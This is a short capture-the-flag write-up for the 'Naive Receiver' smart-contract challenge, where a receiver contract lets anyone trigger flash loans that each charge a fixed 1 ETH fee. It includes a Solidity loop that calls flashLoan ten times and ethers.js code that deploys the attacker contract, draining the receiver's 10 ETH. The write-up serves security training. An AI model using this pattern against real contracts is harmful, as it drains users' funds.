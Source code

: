 ### Task

>There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

>A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

>Take all ETH out of the user’s contract. If possible, in a single transaction.

### Observations

- The Reveicever Contract has "Naively" allowed anyone to call a flash loan on it's behalf. 

- The pool it calls to remains the same so we cannot pretend to be a flashloan provider.

- However the pool in question provides a fixed fee of 1 Eth. 

- We can create a contract to make a flashloan 10 times to drain 10 Eth.

### Steps

- Write a for loop that calls the lender contracts `flashLoan` function on the naive receivers behalf...10 times.

```
constructor(address payable poolAddress, address receiverAddress) {
        for (uint256 i = 0; i <= 9; i++) {
            NaiveReceiverLenderPool(poolAddress).flashLoan(receiverAddress, 0);
        }
    }
```

- Deploy the malicious contract, the malicious action will run in the constructor.

```
const NaiveAttackerFactory = await ethers.getContractFactory("NaiveAttacker", attacker);
    await NaiveAttackerFactory.deploy(this.pool.address, this.receiver.address);
```

